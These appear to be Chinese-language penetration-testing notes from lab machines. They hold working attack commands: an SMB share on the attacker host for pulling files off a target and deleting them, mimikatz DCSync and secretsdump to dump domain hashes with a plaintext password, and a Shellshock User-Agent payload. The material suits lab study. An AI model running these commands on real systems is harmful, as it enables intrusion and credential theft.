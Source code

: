 - kali 开启 smb 把 靶机上的 zip 文件传回 kali

  ```bash
  └─# /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username zf1yolo -password zf1yolo
  ```

  靶机运行：

  ```
  net use \\10.10.16.5\share /u:zf1yolo zf1yolo
  copy 20230912231407_BloodHound.zip \\10.10.16.5\share\
  del 20230912231407_BloodHound.zip
  net use /d \\10.10.16.5\share
  ```

  

- dcsync 导出域内 Hash

  ```powershell
  *Evil-WinRM* PS C:\programdata> .\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
  ```

  ```bash
  └─# secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
  ```

  


- msf 的安卓模版存在漏洞，`msf6 > search msfvenom` ，详情可见 靶机 `ScriptKiddie`




- 当 不知道 cms 时，可尝试谷歌识图




- Shellshock 漏洞 [Exploiting CGI Scripts with Shellshock (antonyt.com)](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) 详情可见 shocker 靶机

  ```bash
  curl http://10.10.10.56/cgi-bin/user.sh -H  "User-agent: () { :;}; ping 10.10.16.3 -t3"
  ```



- 扫web目录可能出现的情况

  目录扫的是 http://10.10.10.56/cgi-bin  显示 404

  应该是 http://10.10.10.56/cgi-bin/ 显示 403

  可解决

  ```bash
  └─# gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash
  ```

  --add-slash 为结尾加上后缀 / ，如 http://10.10.10.56/cgi-bin/

  